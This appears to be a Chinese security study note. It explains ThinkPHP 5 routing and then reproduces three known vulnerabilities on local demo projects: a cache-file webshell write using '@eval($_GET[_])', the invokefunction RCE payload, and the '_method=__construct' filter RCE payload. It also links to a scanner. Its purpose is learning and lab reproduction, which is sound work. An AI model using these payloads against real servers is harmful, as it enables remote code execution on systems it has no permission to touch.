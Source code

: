 # Thinkphp

## 基本概念

### 执行流程：
1、首先解析伪静态配置规则，位于.htaccess之中

```
例：
Apache伪静态举例
$ <IfModule mod_rewrite.c>
$ Options +FollowSymlinks -Multiviews
$ RewriteEngine On
$ RewriteCond %{REQUEST_FILENAME} !-d
$ RewriteCond %{REQUEST_FILENAME} !-f
$ RewriteRule ^(.*)$ index.php/$1 [QSA,PT,L] </IfModule>
此规则访问路径自动添加前缀index.php
```
2、其次解析路由配置规则，位于route/route.php中

```
例：
1、注册路由到index模块的News控制器的read操作：Route::rule('new/:id','index/News/read');
2、访问：http://serverName/new/5
3、自动路由到：http://serverName/index/news/read/id/5

详细解析：https://www.kancloud.cn/manual/thinkphp5/118030
```
3、application包实现程序逻辑，分为 模块/控制器/方法

```
模块:Application文件夹中的目录名
控制器controller：位于每个模块下，继承app\index\controller的类
方法method：继承controller类中的方法
```

### 访问方式：
1、pathinfo方式访问：http://tp5.com/index.php/index/index/index
```
配置项：
'url_route_on'  =>  false,
```
2、路由方式访问：http://tp5.com/index.php?s=/index/Index/index
```
普通路由配置项：
'url_route_on'  =>  true,

强制路由配置项（此模式下无法触发thinkphp5路由rce，并且所有的方法都需要配置路由规则，否则不能正常访问）：
'url_route_on'  		=>  true,
'url_route_must'		=>  true,
```

## 缓存getshell
### 介绍
本次漏洞存在于 ThinkPHP 的缓存类中。该类会将缓存数据通过序列化的方式，直接存储在 .php 文件中，攻击者通过精心构造的 payload ，即可将 webshell 写入缓存文件。缓存文件的名字和目录均可预测出来，一旦缓存目录可访问或结合任意文件包含漏洞，即可触发 远程代码执行漏洞 。

漏洞影响版本：
	5.0.0<=ThinkPHP5<=5.0.10 
利用条件：
	cache目录可访问
	猜测缓存中的php文件名

### 复现-项目tpdemo1
thinkphp版本5.0.10

1、更改application/index/controller/Index.php代码

```
<?php
namespace app\index\controller;
use think\Cache;
class Index
{
    public function index()
    {
        Cache::set("name",input("get.username"));
        return 'Cache success';
    }
}
```
2、访问 http://localhost/tpdemo1/public/?username=mochazz123%0d%0a@eval($_GET[_]);// ，即可将 webshell 写入缓存文件
![tpdemo1](./image/tpdemo1-1.png)
3、访问webshell执行命令：http://localhost/tpdemo1/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php?_=system(ipconfig);

![tpdemo1](./image/tpdemo1-2.png)
缓存文件命名规则，md5(缓存名变量)，前两位为目录，后30位为文件名



## rce1
### 介绍
本次漏洞存在于 ThinkPHP 底层没有对控制器名进行很好的合法性校验，导致在未开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致 远程代码执行漏洞 的产生。

漏洞影响版本： 
	5.0.7<=ThinkPHP5<=5.0.22 、5.1.0<=ThinkPHP<=5.1.30。
利用条件：
	未开启强制路由

### 复现-项目tpdemo2
thinkphp版本为5.1.30

1、更改默认模块为api，并将默认页面放在项目根目录index.php
2、访问http://localhost/tpdemo2/index.php?s=api/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
![tpdemo2](./image/tpdemo2.png)

## rce2
### 介绍
本次漏洞存在于 ThinkPHP 底层没有对控制器名进行很好的合法性校验，导致在未开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致 远程代码执行漏洞 的产生。

漏洞影响版本：
	5.0.0<=ThinkPHP5<=5.0.23 、5.1.0<=ThinkPHP<=5.1.30。
利用条件：
	开启debug模式
	未开启强制路由

### 复现-项目tpdemo3
thinkphp版本为5.0.23

1、打开app_debug选项

2、post请求：http://localhost/tpdemo3/public/

data内容：_method=__construct&filter[]=system&server[REQUEST_METHOD]=ipconfig

3、成功执行

![tpdemo3](./image/tpdemo3.png)
## 其他工具

thinkphp log提取：https://github.com/mrknow001/thinkphp-log-analyse
Thinkphp rce扫描脚本：https://github.com/sukabuliet/ThinkphpRCE

